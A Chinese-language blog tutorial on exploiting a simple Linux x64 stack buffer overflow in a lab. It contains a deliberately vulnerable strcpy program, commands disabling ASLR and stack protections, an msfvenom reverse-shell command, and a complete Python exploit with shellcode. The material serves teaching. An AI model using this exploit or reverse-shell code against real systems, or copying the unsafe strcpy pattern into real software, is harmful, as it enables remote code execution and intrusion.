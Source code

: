 ```yaml
---
layout: post
title: "Linux Simple Stack overflow"
---
```


#### 环境准备 ####

环境： kaili 2017.2 64位

工具： peda

简单的漏洞程序：

    #include <stdio.h>
    #include <string.h>
    
    void my_func(char *buff) {
    	char msg[256];
    	strcpy(msg, buff);
    }
    
    int main(int argc, char *argv[]) {
    	my_func(argv[1]);
    	return 0;   
    }

编译：

	gcc -g -fno-stack-protector -z execstack -o vul stack.c

关闭ASLR

	echo 0 > /proc/sys/kernel/randomize_va_space

通过peda的checksec可以查看我们加载程序启用了那些[安全机制](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)。

其他一些安全机制的控制：

- NX：`-z execstack / -z noexecstack` (关闭 / 开启)
- Canary：`-fno-stack-protector /-fstack-protector / -fstack-protector-all` (关闭 / 开启 / 全开启)
- PIE：`-no-pie / -pie` (关闭 / 开启)
- RELRO：`-z norelro / -z lazy / -z now` (关闭 / 部分开启 / 完全开启)

#### 0x00 漏洞原理 ####

由于用户的输入没有做长度控制，导致覆盖了栈上函数调用时的返回地址，在函数调用结束时`ret`指令的调用，控制了EIP从而导致任意指令执行，本次实例关闭了所有的安全机制为理想情况。

熟悉这个漏洞最关键的一点，熟悉栈的内存布局：

<pre>low addr +-->  +-------------------+
               |     .........     |
               +-------------------+
               |                   |
      ^        |                   |
      |        |                   |
      |        |                   |
      |        |                   |
      |        +-------------------+
      |        |      msg[256]     |
      |        +-------------------+
      |        |     saved EBP     |
      |        +-------------------+
      |        |    return addr    |
               +-------------------+ <--- call my_func
               |    arg0=argv[1]   |
               +-------------------+
               |     .........     |
high addr +--> +-------------------+</pre>

在上图中，可以看到进入`my_func`中时本地变量`msg[256]`的位置，在`my_func`函数中会使用不安全的函数`strcpy`，将用户的输入写入本地变量`msg`中，如果数据过长会覆盖`saved EBP`和`return addr`,这样就导致了函数返回地址被劫持，产生漏洞

#### 0x01 漏洞触发和利用 ####

核心思路为：

- 识别到漏洞点
- 找到偏移量
- 找到跳转地址
- shellcode

通过`gdb`加载漏洞程序`vul`,首先查看安全机制的开启情况：

![sov]({{ '/images/201803/sov_1_1.png' | prepend: site.baseurl }})

设置参数开始运行程序,由于我们看到msg本身为256长度的数组，我们设置我们的paylaod长度为300测试看是否能触发漏洞

![sov]({{ '/images/201803/sov_1_2.png' | prepend: site.baseurl }})

发生异常，此时执行的指令为`ret`(会将栈顶的数据放入EIP中)，此时查看`rsp`发现此时栈顶的数据为`0x41414141`

![sov]({{ '/images/201803/sov_1_3.png' | prepend: site.baseurl }})

我们使用`peda`内置的`pattern_create`和`pattern_offset`工具来寻找准确的偏移

![sov]({{ '/images/201803/sov_1_4.png' | prepend: site.baseurl }})
![sov]({{ '/images/201803/sov_1_5.png' | prepend: site.baseurl }})

我们确定了准确的偏移为264， 确定了偏移后我们要找到一个跳转的地址指向我们的payload， 我们这里简化直接通过gdb调试查看栈的地址(我们关闭了各种安全机制，所以这里地址不会变化)，可以发现在strcpy的参数中可以看到位置`0x7fffffffde80`就是`msg`的栈地址

![sov]({{ '/images/201803/sov_1_6.png' | prepend: site.baseurl }})

现在找到了跳转地址，还缺最后的shellcode，我们直接使用`msfvenom`来生成一个反向shell

	msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f python


所有都已经准备好，写一个简单的python脚本来整合我们所有的东西

<pre>#!/usr/bin/python
import struct

# msf reverse shell
shellcode =  ""  
shellcode += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
shellcode += "\xef\xff\xff\xff\x48\xbb\xd1\x6b\x1d\x16\x26\x86\x6e"
shellcode += "\xc3\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
shellcode += "\xbb\x42\x45\x8f\x4c\x84\x31\xa9\xd0\x35\x12\x13\x6e"
shellcode += "\x11\x26\x7a\xd3\x6b\x0c\x4a\x59\x86\x6e\xc2\x80\x23"
shellcode += "\x94\xf0\x4c\x96\x34\xa9\xfb\x33\x12\x13\x4c\x85\x30"
shellcode += "\x8b\x2e\xa5\x77\x37\x7e\x89\x6b\xb6\x27\x01\x26\x4e"
shellcode += "\xbf\xce\xd5\xec\xb3\x02\x73\x39\x55\xee\x6e\x90\x99"
shellcode += "\xe2\xfa\x44\x71\xce\xe7\x25\xde\x6e\x1d\x16\x26\x86"
shellcode += "\x6e\xc3"

payload_len = 264 
nop_len = 20
shell_len = len(shellcode)
padding_len = payload_len - nop_len - shell_len
return_addr = struct.pack("<Q", 0x7fffffffde80)

nop = "\x90"*nop_len
padding = "B"*padding_len

print nop + shellcode + padding + return_addr</pre>

所有都准备好后，重新加载我们的payload

	gdb-peda$ r `python exp.py`

另外一个终端，成功接收到shell

![sov]({{ '/images/201803/sov_1_7.png' | prepend: site.baseurl }})

至此入门级别的stack buffoverflow漏洞利用结束

#### 0x02 总结 ####

目前这样的漏洞只能存在实验环境，适合做入门了解，真实的漏洞利用会相当复杂。 

KEEP GOING!!!


参考：

https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/
